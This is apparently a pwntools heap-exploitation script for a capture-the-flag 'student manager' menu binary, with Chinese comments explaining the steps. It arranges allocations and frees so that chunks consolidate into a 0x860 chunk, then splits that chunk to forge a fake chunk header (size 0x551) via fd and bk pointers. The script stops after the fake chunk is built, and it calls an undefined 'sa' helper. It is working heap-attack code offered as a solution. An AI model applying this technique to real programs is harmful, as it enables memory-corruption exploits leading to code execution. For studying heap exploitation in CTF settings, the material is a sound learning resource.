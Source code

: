 ```python
sla = lambda n, s: p.sendlineafter(n, s)
rc = lambda n: p.recv(n)
rl = lambda: p.recvline()
ru = lambda s: p.recvuntil(s)
ra = lambda: p.recvall()
ia = lambda: p.interactive()
uu32 = lambda data: u32(data.ljust(4, b"\x00"))
uu64 = lambda data: u64(data.ljust(8, b"\x00"))




def cmd(op):
    sla(">> ", str(op))


def add(size, content):
    cmd(1)
    sla("How many students do you want to add: ", str(1))
    sla("Gender (m/f): ", "m")
    sla("Size: ", str(size))
    sa("Content:", content)
    print("--------------\nadd一个\n--------------")


def show(index):  # gender,content,size
    cmd(2)
    sla("Enter the index of the student: ", str(index))
    cmd(2)
    print("--------------\nshow一个\n--------------")

def free(index):  # gender,content,size
    cmd(3)
    sla("Enter the index of the student: ", str(index))
    cmd(2)
    print("--------------\n删除一个\n--------------")

add(0x410, "a" * 8)  # 0  290
add(0x100, "a" * 8)  # 1  6b0
add(0x430, "a" * 8)  # 2  7c0
add(0x430, "a" * 8)  # 3  c00
add(0x100, "a" * 8)  # 4  1040
add(0x480, "a" * 8)  # 5  1150
add(0x420, "a" * 8)  # 6  15e0
add(0x10, "a" * 8)  # 7  1a10

free(0)
free(3)
free(6)
# 触发合并 然后合成一个0x860的大chunk 让我们可以分割
# 并且我们的fd和bk在0x430+16字节的位置 也就是0x440位置存在fd和bk
free(2)
# add一个比chunk 0 chunk6都大的chunk这样就会去分割0x860chunk 然后我们控制我们的payload 设置一个size到原本size的地方
# 这样fd和bk分别指向chunk 0 和chunk 6 这样我们可以构造一个 合法的chunk head头
add(0x450, b"a" * 0x438 + p16(0x551))  # 0
# 将 chunk3 变为allocted
add(0x410, "a" * 8)  # 2
add(0x420, "a" * 8)  # 3
add(0x410, "a" * 8)  # 6
print("构造fake chunk成功")
free(6)
free(2)
add(0x410, "a" * 8)  # 2
```